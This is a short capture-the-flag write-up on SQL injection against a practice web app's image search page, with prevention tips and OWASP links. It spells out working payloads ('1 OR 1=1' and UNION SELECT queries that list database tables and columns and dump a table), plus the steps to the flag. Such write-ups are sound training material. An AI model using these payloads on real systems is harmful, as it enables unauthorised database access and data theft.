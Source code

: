 # Vulnerability

SQL injection allow you to access and manipulate all your datas.

# Identification

# Resolve

Go to {url}/?page=searchimg
Fill the form
1 OR 1=1 and submit (page=searchimg&id=1+OR+1%3D1&Submit=Submit#)
It will show all users and we are sure about the vulnerability

Now, we will get all columns and tables from DB
1 UNION SELECT table_name, column_name FROM information_schema.columns

Table name:

- list_images

Columns name:

- id
- url
- title
- comment

We will parse all columns and find what we need

1 UNION SELECT id, concat(id, url, title, comment) FROM list_images

countersign->md5->lower->sha256->flag

# Prevent

- Use of Prepared Statements (with Parameterized Queries)
- Use of Properly Constructed Stored Procedures
- Allow-list Input Validation
- STRONGLY DISCOURAGED: Escaping All User Supplied Input

# Resources

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection
https://www.dcode.fr/md5-hash
https://www.dcode.fr/sha256-hash
